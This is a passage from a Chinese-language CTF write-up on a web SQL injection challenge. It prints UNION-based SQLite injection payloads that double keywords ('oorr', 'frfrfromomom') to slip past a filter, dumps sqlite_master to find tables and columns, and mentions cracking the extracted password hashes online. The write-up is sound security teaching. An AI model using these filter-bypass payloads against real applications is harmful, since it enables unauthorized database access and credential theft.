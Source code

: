 這裡from不用oorr來藏是因為前面篩選順序的關係。全部的帳號：

```
root,admin,test,guest,info,adm,mysql,kaibro,oracle,ftp,pi,puppet,ansible,maojui,ec2,djosix,vagrant,azureuser,python,user,username,administrator
```

用同樣的方式可以拿到密碼的md5 hash，只是password要換成passwooorrrd（XDDD）

把hash丟到網路工具可以找到不少個密碼，比如說admin的密碼也是admin... 但是拿到這些沒什麼用，所以接下來檢查users裡頭有沒有其他欄位：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,sql,1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/name='users'/oorr*
payload: x' union select 1,sql,1 from sqlite_master where name='users'/*)
results: CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT )
```

這樣子可以知道users裡頭各個欄位的名字：`id, username password`，然後就可以一個一個看。（都沒有flag @_@）

既然題目提示flag就在資料庫裡，但是users裡頭又沒有，只能說明flag藏在另一個table裡啦～

尋找資料庫裡所有table：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,group_concat(name),1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/type='table'/oorr*
payload: x' union select 1,group_concat(name),1 from sqlite_master where type='table'/*
results: users,sqlite_sequence,garbage
```

`sqlite_sequence`是sqlite自動創建的，用不太到，flag一定在garbage裡面。使用前面看column name的方法看garbage，得到`CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )`，一樣一個一個看，最後看到在value裡頭：

![owl](/assets/owl.png)

ㄏㄏ，反正我也不會用sqlmap。第一次解開SQL-I的題目真的是好爽A_A

本題心得：遇到sqlite的題目，直接想辦法讀sqlite_master就好了。

### Web - Squirrel

一點進去發現一堆漂來漂去的松鼠，底下有一些看不懂的東西：

